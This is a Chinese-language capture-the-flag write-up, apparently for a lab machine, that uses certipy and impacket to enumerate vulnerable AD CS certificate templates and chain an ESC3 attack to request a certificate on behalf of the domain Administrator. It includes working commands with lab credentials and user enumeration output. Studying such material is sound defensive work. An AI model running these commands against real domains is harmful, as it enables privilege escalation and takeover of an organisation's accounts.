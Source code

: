 SpecterOps团队在其白皮书中系统化定义了ESC1~8八种攻击手法，后续又陆续补充了几种。白皮书链接：https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf  

还有一些比较新的漏洞比如CVE-2022-26923通过改自己机器的dNSHostName获取域控机器账户的证书，这是利用特定模板的漏洞。

这本白皮书基本奠定了ADCS的利用的理论基础。之后就出现了各种利用工具，其中比较有名的就是certipy。

certify的作用简单来说就是先找到当前用户可注册的，存在已知漏洞的模板，然后申请这个模板的证书。

我们使用certify的find列举Lion.SK能注册的证书模板：

```
certipy-ad find -dc-ip 10.10.11.71 -u Lion.SK -p '!QAZ2wsx' -stdout 
...
0
    Template Name                       : Delegated-CRA
...
 [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
...
1
    Template Name                       : SignedUser
...
[*] Remarks
      ESC3 Target Template              : Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy.
```

首先名为Delegated-CRA的模板有**证书请求代理**扩展权限，可以和名为SingedUser的模板配合进行ESC3攻击：

1. **获取代理证书**：首先获得"Delegated-CRA"模板的证书请求代理证书
2. **伪造高权限身份**：使用该代理证书为"SignedUser"模板请求证书，并在请求中指定高权限用户（如域管理员）的身份

先申请一个有证书请求代理扩展权限的证书：

```
└─# certipy-ad req -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'Delegated-CRA' -u Lion.SK -p '!QAZ2wsx'
```

然后用它代理为SingedUser模板申请一张管理员身份的证书：

```
└─# certipy-ad -debug req -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'SignedUser' -u lion.sk@certitifcate.htb -p '!QAZ2wsx' -on-behalf-of 'CERTIFICATE\Administrator' -pfx lion.sk.pfx
```

注意两条指令的-u参数不一样，一种是传统的账户形式，一种是xxx@xxx.xx的UPN形式。经测试两条指令-u Lion.SK均可以成功，但是第一条指令-u lion.sk@certitifcate.htb失败

这里的第二条指令执行还是会出错，提示需要邮箱。这个模板注册需要用户的邮箱，而Administrator账户没有预先设定邮箱，因此我们无法申请管理员的证书。

为了查看有哪些用户是有邮箱的，我们可以使用impacket包中的GetADUsers.py进行枚举：

```
└─# ./GetADUsers.py certificate.htb/Lion.SK:'!QAZ2wsx' -all -dc-ip 10.10.11.71
```

```
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2025-04-29 05:33:46.958071  2025-10-13 15:23:09.884388 
Guest                                                 <never>              <never>             
krbtgt                                                2024-11-03 17:24:32.914665  <never>             
Kai.X                 kai.x@certificate.htb           2024-11-04 08:18:06.346088  2024-11-24 14:36:30.608468 
Sara.B                sara.b@certificate.htb          2024-11-04 10:01:09.188915  2024-12-27 14:01:28.460147 
John.C                john.c@certificate.htb          2024-11-04 10:16:41.190022  <never>             
```